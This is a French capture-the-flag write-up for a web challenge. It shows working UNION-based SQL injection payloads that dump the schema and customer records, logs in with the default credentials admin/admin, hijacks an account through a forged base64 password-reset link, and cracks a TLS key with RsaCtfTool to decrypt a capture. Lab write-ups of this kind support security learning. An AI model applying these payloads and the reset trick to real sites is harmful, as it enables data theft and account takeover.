# Jérémy Nitel - challenge web

Le challenge web est introduit par Jérémy Nitel.



## Récupérer le mail d'Evil Gouv

Rendons-nous sur le premier site (//4e9033c6eacf38dc2a5df7a14526bec1).



Comme indiqué par Jérémy Nitel, le nom d'utilisateur et mot de passe sont assez peu originaux, et on se connecte avec `admin/admin`.

Une fois connectés, on a accès à de nombreuses pages. On les visite toutes, et la page qui nous intéresse le plus est la page de gestion des stocks.



En effet, en entrant une apostrophe dans la barre de recherche, on obtient une erreur SQL qu'on souhaite exploiter.



On veut récupérer les données des utilisateurs. Seulement on ne sait pas comment sont stockées ces données, donc essayons d'afficher les différentes tables.

Au vu du message d'erreur, la requête est probablement de la forme : `SELECT id, object, status, section, client FROM stock_table WHERE object LIKE '%{}%' ORDER BY section ASC`, où ce qu'on entre est mis à la place du `{}`.
A noter que le nom de la table et des colonnes n'est pas encore connu.

On souhaite donc afficher la liste des tables. Pour ce faire, on effectue une injection UNION. Ce qui est important est de conserver le nombre de colonnes, ainsi que de ne pas avoir d'erreur suite au ORDER BY. On crée donc l'injection suivante:

```
' AND 1=2 UNION SELECT table_schema, table_name, 3, 4, 5 FROM information_schema.tables UNION SELECT 1,2,3,4,'5
```

où le 3,4,5 est un padding pour avoir le bon nombre de colonnes et la dernière union permet de ne pas avoir d'erreur suite au ORDER BY.

On obtient les tables en lisant la liste des résultats.


La table qui nous intéresse est la table `customer`, regardons ses colonnes avec l'injection suivante:

```
' AND 1=2 UNION SELECT table_name, column_name, 3, 4, 5 FROM information_schema.columns WHERE table_name='customer' UNION SELECT 1,2,3,4,'5
```



Il ne reste plus qu'à récupérer l'information voulue à propos d'Evil Gouv.

```
' AND 1=2 UNION SELECT id, name, email, delivery_address, signup_date FROM customer UNION SELECT 1,2,3,4,'5
```



On obtient donc le mail: `agent.malice@secret.evil.gov.ev`.

## Réserver le billet d'avion

Étape suivante, se rendre sur le site de réservation de billet.



Je peux créer un compte, mais je ne peux pas réserver le billet qu'il faut réserver. 

Je teste de nombreuses fonctionnalités, et l'une d'elle est la demande de réinitialisation du mot de passe.

J'ai créé un compte avec comme mail `yobaja7465@vhoff.com` et mot de passe `yobaja7465@vhoff.com`. Quand je demande un lien de réinitialisation du mot de passe, j'obtiens le mail suivant:



Et là surprise: quand je clique sur le lien, mon mot de passe s'affiche en clair !


De plus, la lien de réinitialisation contient un `=`, ce qui me fait fortement penser à du base64. Effectivement, quand je le donne à [CyberChef](https://gchq.github.io/CyberChef), j'obtiens une fois de plus mon mail.

L'exploit est donc assez clair, il suffit d'aller à l'URL de réinitialisation, mais en remplaçant mon adresse mail par l'adresse cible encodée en base64: `https://challengecybersec.fr/35e334a1ef338faf064da9eb5f861d3c/reset/YWdlbnQubWFsaWNlQHNlY3JldC5ldmlsLmdvdi5ldg==`

Effectivement, on obtient le mot de passe `Superlongpassword666`. De plus, quand on se connecte le billet est réservé.



En lisant le QR code (avec son téléphone ou avec [ce site](https://zxing.org/w/decode.jspx) par exemple) on obtient le flag.

Flag: `DGSESIEE{2cd992f9b2319860ce3a35db6673a9b8}`



## Décrypter le PCAP

La première partie finie, on obtient un fichier pcap qui est une capture réseau. On l'ouvre avec [Wireshark](https://www.wireshark.org/) et on observe une connexion chiffrée avec TLS 1.0. 

Les messages handshake sont également inclus. Ce sont eux qui permettent d'établir les secrets de connexion, donc si on arrive à les décrypter, on arrive à lire le contenu.



On obtient en particulier le certificat du site web.


Je casse le certificat et trouve sa clé privée avec [rsactftool](https://github.com/Ganapati/RsaCtfTool).

```bash
RsaCtfTool.py --publickey certificate --private
```

J'ajoute la clé à ma liste de clés privées dans Wireshark (`Editer -> Préférences -> Protocoles -> TLS -> RSA keys list`). Cela me permet de décrypter la communication.



J'obtiens alors l'URL /7a144cdc500b28e80cf760d60aca2ed3 qui me mène vers la plateforme CTF.